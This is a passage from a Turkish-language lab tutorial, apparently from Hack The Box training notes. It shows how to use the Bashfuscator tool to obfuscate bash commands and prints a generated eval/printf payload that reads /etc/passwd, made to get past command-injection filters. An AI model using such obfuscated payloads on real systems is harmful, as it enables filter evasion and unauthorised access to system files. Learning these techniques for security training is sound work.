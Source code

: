 ## Linux (Bashfuscator)

Bash komutlarını gizlemek için kullanabileceğimiz kullanışlı bir araç [Bashfuscator’dır](https://github.com/Bashfuscator/Bashfuscator). GitHub’dan depoyu klonlayabilir ve ardından aşağıdaki gibi gereksinimlerini yükleyebiliriz:

![Pasted image 20241211032645.png](/img/user/resimler/Pasted%20image%2020241211032645.png)

Aracı kurduktan sonra ./bashfuscator/bin/ dizininden kullanmaya başlayabiliriz. h yardım menüsünde görebileceğimiz gibi, nihai gizlenmiş komutumuza ince ayar yapmak için araçla birlikte kullanabileceğimiz birçok bayrak vardır:

```shell-session
M1R4CKCK@htb[/htb]$ cd ./bashfuscator/bin/
M1R4CKCK@htb[/htb]$ ./bashfuscator -h

usage: bashfuscator [-h] [-l] ...SNIP...

optional arguments:
  -h, --help            show this help message and exit

Program Options:
  -l, --list            List all the available obfuscators, compressors, and encoders
  -c COMMAND, --command COMMAND
                        Command to obfuscate
...SNIP...
```

Basitçe -c bayrağı ile gizlemek istediğimiz komutu sağlayarak başlayabiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd'

[+] Mutators used: Token/ForCode -> Command/Reverse
[+] Payload:
 ${*/+27\[X\(} ...SNIP...  ${*~}   
[+] Payload size: 1664 characters
```

Ancak, aracı bu şekilde çalıştırmak rastgele bir karartma tekniği seçecektir ve bu da birkaç yüz karakterden bir milyon karaktere kadar değişen bir komut uzunluğu üretebilir! Bu nedenle, yardım menüsündeki bazı bayrakları kullanarak aşağıdaki gibi daha kısa ve basit bir gizlenmiş komut üretebiliriz:

```shell-session
M1R4CKCK@htb[/htb]$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1

[+] Mutators used: Token/ForCode
[+] Payload:
eval "$(W0=(w \  t e c p s a \/ d);for Ll in 4 7 2 1 8 3 2 4 8 5 7 6 6 0 9;{ printf %s "${W0[$Ll]}";};)"
[+] Payload size: 104 characters
```

Şimdi bash -c ‘’ ile çıktısı alınan komutu test edebilir ve istenen komutu çalıştırıp çalıştırmadığını görebiliriz:
